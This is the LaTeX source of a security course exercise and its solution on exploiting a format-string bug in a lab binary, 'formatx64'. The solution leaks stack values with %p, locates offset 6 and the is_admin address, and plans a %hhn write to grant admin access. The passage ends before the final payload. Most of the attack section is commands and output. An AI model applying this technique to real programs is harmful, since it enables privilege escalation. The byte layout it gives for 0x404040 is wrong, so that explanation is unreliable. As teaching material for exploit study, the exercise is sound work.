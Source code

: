 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[StackX64 Project]
\begin{enumerate}
\item[\textbf{5c)}] Build the \texttt{\%hhn} exploit to write a non-zero value to \texttt{is\_admin}. The strategy is:
\begin{enumerate}
    \item Place the address of \texttt{is\_admin} at the end of the payload (after the format specifiers)
    \item Use padding to adjust the number of printed characters
    \item Use \texttt{\%hhn} with the appropriate offset to write to \texttt{is\_admin}
\end{enumerate}

\item[\textbf{5d)}] Run the exploit and verify that the message \texttt{"Admin access granted!"} is displayed.
\end{enumerate}

\begin{correction}

\textbf{5a)} Locating the buffer on the stack:
\begin{lstlisting}[style=GDBStyle]
$ ./formatx64 "AAAAAAAA.%p.%p.%p.%p.%p.%p.%p.%p"
=== FormatX64 - Format String Vulnerability ===

[DEBUG] is_admin is at address: 0x404040
[DEBUG] is_admin value (before): 0

AAAAAAAA.0x7fffffffdc30.0x7ffff7f9a2a0.(nil).0x7fffffffdd40.
0x7ffff7ffdaa0.0x4141414141414141.0x2e70252e70252e2e.0x252e70252e70252e
\end{lstlisting}

We see \texttt{0x4141414141414141} at position \textbf{6}. Therefore \texttt{k = 6}:
\begin{lstlisting}[style=GDBStyle]
$ ./formatx64 $(python3 -c "print('AAAAAAAA%6\$p')")
... 0x4141414141414141 ...
\end{lstlisting}

\textbf{5b)} Address of \texttt{is\_admin}:
\begin{lstlisting}[style=GDBStyle]
$ nm formatx64 | grep is_admin
0000000000404040 B is_admin
\end{lstlisting}
The address is \texttt{0x404040}.

\textbf{5c)} Building the exploit. The address \texttt{0x404040} contains null bytes (\texttt{0x00 0x00 0x40 0x40 0x40 0x00 0x00 0x00}). We place it at the \textbf{end of the string}. We must calculate the position of this address on the stack.

The buffer starts at stack offset 6. If our format string is 16 bytes before the address (2 quadwords), the address will be at offset $6 + 2 = 8$.


\end{correction}
\end{exercice}
\end{document}
